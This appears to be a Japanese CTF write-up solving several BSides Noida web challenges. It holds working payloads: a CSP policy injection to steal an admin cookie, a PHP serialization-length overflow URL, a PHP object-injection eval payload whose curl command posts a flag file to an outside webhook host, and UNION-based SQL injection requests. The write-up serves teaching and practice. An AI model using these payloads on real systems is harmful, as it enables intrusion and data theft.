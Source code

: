 # Web/Baby Web
nginx の try_files を利用して、sqlite の fileを取得する。
sqlite_master をみると flagsss というテーブルがある。
その中にフラグ
`BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4}`

# Web/Basic Notepad
injection 可能であるがCSPにより保護されている。
```
content-security-policy: script-src 'none'; object-src 'none'; base-uri 'none'; script-src-elem 'none'; report-uri /report/PUBXSyNRIWxxZNsFda6qtw
```

meta refresh で redirect させることができる。
UA が
`Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/92.0.4512.0 Safari/537.36`
で `HeadlessChrome` であることがわかる

`report/~/` の `~` の部分が `/review`のリクエストの query `token` の値と一致しているため、CSPに任意の値を入れることができる。

https://portswigger.net/research/bypassing-csp-with-policy-injection

あとはこの記事の通りにディレクティブをインジェクションし、cookie を取得し、admin なることで、フラグが得られる。
`BSNoida{s0me_b4s1c_CSP_1nj3ct10n}`


# Web/wowooo

```php
 <?php
include 'flag.php';
function filter($string){
    $filter = '/flag/i';
    return preg_replace($filter,'flagcc',$string);
}
$username=$_GET['name'];
$pass="V13tN4m_number_one";
$pass="Fl4g_in_V13tN4m";
$ser='a:2:{i:0;s:'.strlen($username).":\"$username\";i:1;s:".strlen($pass).":\"$pass\";}";

$authen = unserialize(filter($ser));

if($authen[1]==="V13tN4m_number_one "){
    echo $flag;
}
if (!isset($_GET['debug'])) {
    echo("PLSSS DONT HACK ME!!!!!!").PHP_EOL;
} else {
    highlight_file( __FILE__);
}
?>
<!-- debug --> 
```
`flag`　が `flagcc` に replace される前に `strlen` されるので、文字をあふれさせることができる。
`flag`の数*2 だけ文字があふれる。

挿入する文字列は `";i:1;s:19:"V13tN4m_number_one ";}`のようなものであればいい。
文字数は34 なので `flag` が　34/2=17 個あればよい。

`http://ctf.wowooo.bsidesnoida.in/?debug&name=flagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflagflag%22;i:1;s:19:%22V13tN4m_number_one%20%22;}`



`BSNoida{3z_ch4all_46481684185_!!!!!!@!}`

# Web/freepoint

```php
 <?php

include "config.php";
function filter($str) {
    if(preg_match("/system|exec|passthru|shell_exec|pcntl_exec|bin2hex|popen|scandir|hex2bin|[~$.^_`]|\'[a-z]|\"[a-z0-9]/i",$str)) {
        return false;
    } else {
        return true;
    }
}
class BSides {
    protected $option;
    protected $name;
    protected $note;

    function __construct() {
        $option = "no flag";
        $name = "guest";
        $note = "flag{flag_phake}";
        $this->load();
    }

    public function load()
    {
        if ($this->option === "no flag") {
            die("flag here ! :)");
        } else if ($this->option === "getFlag"){
            $this->loadFlag();
        } else {
            die("You don't need flag ?");
        }
    }
    private function loadFlag() {
        if (isset($this->note) && isset($this->name)) {
            if ($this->name === "admin") {
                if (filter($this->note) == 1) {
                    eval($this->note.";");
                } else {
                    die("18cm30p !! :< ");
                }
            }
        }
    }

    function __destruct() {
        $this->load();
    }
}

if (isset($_GET['ctf'])) {
    $ctf = (string)$_GET['ctf'];
    if (check($ctf)) { //check nullbytes
        unserialize($ctf);
    }
} else {
    highlight_file(__FILE__);
}
?>

```

```php
O:6:"BSides":3:{s:6:"option";s:7:"getFlag";s:4:"name";s:5:"admin";s:4:"note";s:42:"eval("\u{0065}cho \u{0065}xec(\" ls\");");";}
```
`unserialize` の時に うまくいくと 任意の文字列で `eval` 呼び出せる。

`O:6:"BSides":3:{s:6:"option";s:7:"getFlag";s:4:"name";s:5:"admin";s:4:"note";s:16:"flag{flag_phake}";}`
`eval` の呼び出しまでいける。

次に,
禁止されている文字列を unicode で回避して、flag を探す。

`find / -iname *flag*` -> flag のファイルなし

`find / -iname *fl*`　-> `/home/fl4g_ne_xxx.txt`

最終payload
```php
O:6:"BSides":3:{s:6:"option";s:7:"getFlag";s:4:"name";s:5:"admin";s:4:"note";s:203:"eval("\u{0065}cho \u{0065}xec(\" curl -X POST https:\u{002f}\u{002f}webhook\u{002e}site\u{002f}7cf663ce-b34d-48eb-ac96-0a5c6e6ab6b9 --data @\u{002f}home\u{002f}fl4g\u{005f}ne\u{005f}xxx\u{002e}txt\");");";}
```

`BSNoida{Fre3_fl4g_f04_y0u_@@55361988!!!}`



# Web/Baby Web Revenge

nginx でパラメータが禁止されているが、同じ名前のクエリを私用することで回避



sql injection 
テーブルの探索

```
GET /?chall_id=1&chall_id=1+UNION+SELECT+name,sql,NULL,NULL,NULL,NULL+FROM+sqlite_master+WHERE+TYPE='table'
```




フラグの取得

```
GET /?chall_id=1&chall_id=1+UNION+SELECT+flag,NULL,NULL,NULL,NULL,NULL+FROM+therealflags
```